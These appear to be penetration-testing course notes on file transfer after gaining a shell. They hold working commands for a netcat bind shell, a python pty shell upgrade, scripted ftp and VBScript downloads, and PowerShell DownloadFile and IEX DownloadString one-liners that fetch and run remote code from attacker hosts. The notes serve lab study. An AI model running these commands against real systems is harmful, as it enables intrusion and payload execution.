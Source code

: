                 in a `bind` or `reverse shell`
    #upgrading non-interactive shell
        `python -c 'import pty; pty.spawn("/bin/bash")'`
            will spawn a sudo terminal
        this will give us an interactive shell via non-interactive channel
    #non-interactive ftp download windows
        windows ships with default ftp client
        ex. have access to windows bind shell `nc.exe -lvnp -e cmd.exe`
            kali: `nc -nv 192.168.203.10 4444`
        if we want use `ftp` via the bind shell we need `ftp -h`
        `-s:filename` will allow for ftp cmds to be send so we can do things
            with it being non-interactive
        ex. add `nc.exe` binary to kali ftp server for download
            `cp /usr/share/windows-resources/binaries/nc.exe /ftphome/`
        restart `pure-ftpd` to besure its working `systemctl restart pure-ftpd`
        build txt file one windows tgt with the ftp cmds we want on 
            the tgt windows mechine:
                ```
                echo open 192.168.119.203> ftp.txt
                echo USER offsec>> ftp.txt
                echo ftp>> ftp.txt
                echo bin >> ftp.txt
                echo GET nc.exe > ftp.txt
                echo bye >> ftp.txt
                ```
             will `open` the ip in ftp, use `USER` and then ftp as password, then
                 request a binary file transfer with `bin` and issue the `GET`
                 request for `nc.exe` and then close the connection.
             `ftp -v -n -s:ftp.txt`
                `-v` to surpress output
                `-n` to surpress auto login
             will download the binary to the windows tgt from our ftp server
             * this may trigger windows defender firewall rules
    #windows downloads using scripting languages
        #wget.vbs
            `cp /usr/share/windows-resources/binaries/wget.exe /var/www/html`
                so we have `wget.exe` on our ftp server for windows to download
                    but the `wget.vbs`  will download any file
                * don't forget to start apache2 !!!
            create a [wget vbs](wget.vbs) by coping its contents to the windows shell
            `cscript wget.vbs http://10.11.0.4/wget.exe evil.exe`
                will download `wget.exe` and change its name to `evil.exe`
                * `evil.exe -V` will head the file in windows shell
        #system.net powershell class
            copy echo commands to windows shell from [wget_ps1_txt](wget_ps1_txt)
			`powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1`
                `-ExecutionPolicy Bypass` allows for exeuciton of ps scripts
                `-NoLogo -noninteractive` to suppress logo and interactive
                    window
                `-NoProfile` will not load a user profile
            as a one liner:
                `powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://192.168.119.203/wget.exe', 'new-exploit.exe')`
        #download and run prowershell script without saving to disk
            using download string method and IEX command let
            [helloworld ps1](helloworld.ps1) hosted on kali apache
            `powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.203/helloworld.ps1')`
        #downloads with exe2hex and powershell
            compress binary, convert to hex, and make a windows script,
                paste script in windows shell to redirect hex data into
                powershell.exe to asemble it back into a binary
            `locate nc.exe | grep binaries`
                to find `nc.exe` on kali